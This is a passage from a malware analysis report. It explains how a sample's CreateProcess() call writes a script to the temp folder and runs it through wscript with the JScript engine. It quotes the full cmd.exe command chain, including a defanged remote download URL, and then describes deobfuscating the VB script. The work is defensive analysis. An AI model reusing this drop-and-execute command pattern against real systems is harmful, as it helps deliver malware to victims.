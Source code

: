 To summarise, `CreateProcess()` executes the following commands (see below):

* It changes directory to the temporary directory (e.g.: `C:\Users\<User>\AppData\Local\Temp`).
* It writes the VB script in a temporary file.
* It executes the VB script, specifying the JScript engine.

```
cmd.exe /q /c cd /d "%tmp%"
echo ... > WMD1NF.tmp
start wscript /B /E:JScript WMD1NF.tmp "njikqzcmxs" \
              "hxxp://zodlp[.]aebeike[.]xyz/breast/ZW92eHZ6cGg" \
              "target user agent"
```

We save the VB script for further analysis.

## VB script

\label{vb_script}

This VB script is obfuscated, see figure \ref{obfuscated_vbscript}.

![Obfuscated VB script\label{obfuscated_vbscript}](images/obfuscated_vbscript.png)

We manually deobfuscate it. We first indent the code, then use the `deobfuscate_strings.vbs` 
script to generate the list of deobfuscated strings. We then replace the strings
with `script_replace_strings.py`. Finally, we rename manually the variables, functions and
concatenate the strings to get a readable script:
